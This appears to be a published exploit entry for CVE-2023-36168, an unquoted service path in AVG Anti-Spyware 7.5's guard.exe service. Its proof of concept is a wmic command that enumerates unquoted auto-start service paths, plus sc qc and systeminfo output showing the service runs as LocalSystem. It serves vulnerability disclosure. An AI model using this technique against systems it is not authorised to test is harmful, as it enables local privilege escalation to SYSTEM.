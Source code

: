 # CVE-2023-36168
An issue in AVG AVG Anti-Spyware v.7.5 allows an attacker to execute arbitrary code via a crafted script to the guard.exe component

# Exploit Title: AVG Anti Spyware 7.5 - Unquoted Service Path
# Date: 05/08/2023
# Exploit Author: Idan Malihi
# Vendor Homepage: https://www.avg.com
# Software Link: https://www.avg.com/en-ww/homepage#pc
# Version: 7.5
# Tested on: Microsoft Windows 10 Pro
# CVE : CVE-2023-36168

#PoC

C:\Users>wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
AVG Anti-Spyware Guard                                                              AVG Anti-Spyware Guard                    C:\Program Files (x86)\Grisoft\AVG Anti-Spyware 7.5\guard.exe                            Auto

C:\Users>sc qc "AVG Anti-Spyware Guard"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AVG Anti-Spyware Guard
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Grisoft\AVG Anti-Spyware 7.5\guard.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : AVG Anti-Spyware Guard
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users>systeminfo

Host Name:                 DESKTOP-LA7J17P
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
OS Manufacturer:           Microsoft Corporation
